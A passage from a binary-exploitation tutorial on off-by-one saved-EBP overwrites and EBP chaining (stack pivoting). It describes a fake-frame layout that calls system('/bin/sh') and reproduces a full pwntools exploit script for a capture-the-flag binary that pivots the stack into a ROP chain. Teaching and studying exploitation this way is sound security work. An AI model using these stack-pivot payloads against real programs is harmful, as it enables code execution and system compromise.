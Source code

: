 #### Off-By-One Exploit

There's a variant used when you can **only modify the least significant byte of the saved EBP/RBP**. In such a case, the memory location storing the address to jump to with **`ret`** must share the first three/five bytes with the original EBP/RBP so a 1-byte overwrite can redirect it. Usually the low byte (offset 0x00) is increased to jump as far as possible within a nearby page/aligned region.

It’s also common to use a RET sled in the stack and put the real ROP chain at the end to make it more probable that the new RSP points inside the sled and the final ROP chain is executed.

### EBP Chaining

By placing a controlled address in the saved `EBP` slot of the stack and a `leave; ret` gadget in `EIP/RIP`, it's possible to **move `ESP/RSP` to an attacker-controlled address**.

Now `RSP` is controlled and the next instruction is `ret`. Place in the controlled memory something like:

- `&(next fake EBP)` -> Loaded by `pop ebp/rbp` from `leave`.
- `&system()` -> Called by `ret`.
- `&(leave;ret)` -> After `system` ends, moves RSP to the next fake EBP and continues.
- `&("/bin/sh")` -> Argument for `system`.

This way it's possible to chain several fake EBPs to control the flow of the program.

This is like a [ret2lib](../rop-return-oriented-programing/ret2lib/index.html), but more complex and only useful in edge-cases.

Moreover, here you have an [**example of a challenge**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/leave) that uses this technique with a **stack leak** to call a winning function. This is the final payload from the page:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16)
log.success(f'Buffer: {hex(buffer)}')

LEAVE_RET = 0x40117c
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229

payload = flat(
    0x0,               # rbp (could be the address of another fake RBP)
    POP_RDI,
    0xdeadbeef,
    POP_RSI_R15,
    0xdeadc0de,
    0x0,
    elf.sym['winner']
)

payload = payload.ljust(96, b'A')     # pad to 96 (reach saved RBP)

payload += flat(
    buffer,         # Load leaked address in RBP
    LEAVE_RET       # Use leave to move RSP to the user ROP chain and ret to execute it
)

pause()
p.sendline(payload)
print(p.recvline())
```
